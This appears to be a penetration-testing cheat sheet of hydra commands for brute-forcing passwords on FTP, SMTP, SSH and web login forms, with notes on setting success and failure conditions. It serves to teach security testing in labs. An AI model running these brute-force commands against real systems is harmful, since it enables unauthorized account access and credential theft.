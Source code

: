 #### Command Usage
```
hydra -L <user_list> -P <password_list> <target> <service>
```

#### FTP
```
hydra -l ftp -P password.lst ftp://IP
```

#### SMTP
```
hydra -l email@company.com -P password.lst smtp://IP -v

# For port 465
hydra -l email@company.com -P password.lst -s 465 -S IP smtp 
```

#### SSH
```
hydra -L user.lst -P password.lst ssh://IP -v
```

#### HTTP login pages
**GET Request**
```
hydra -l admin -P 500-worst-passwords.txt 10.10.x.x http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f
```
- `http-get-form:` type of HTTP request, can be either **http-get-form** or **http-post-form**.
- `:` Next, we need to split the URL, path, and conditions
- `login-get/index.php:` path of the login page
- `username=^USER^&password=^PASS^:` parameters to brute-force
- `-f:` to stop the brute-forcing attacks after finding a valid username and password

The following section is important to eliminate false positives by specifying the 'failed' condition with F=.

And success conditions, S=. You will have more information about these conditions by analysing the webpage or in the enumeration stage! What you set for these values depends on the response you receive back from the server for a failed login attempt and a successful login attempt. For example, if you receive a message on the webpage 'Invalid password' after a failed login, set F=Invalid Password.

Or for example, during the enumeration, we found that the webserver serves logout.php. After logging into the login page with valid credentials, we could guess that we will have logout.php somewhere on the page. Therefore, we could tell hydra to look for the text logout.php within the HTML for every request.

**POST Request**
```
hydra -l burgess -P post.lst 10.10.x.x http-post-form "/login-post/index.php:username=^USER^&password=^PASS^:S=logout.php" -f
```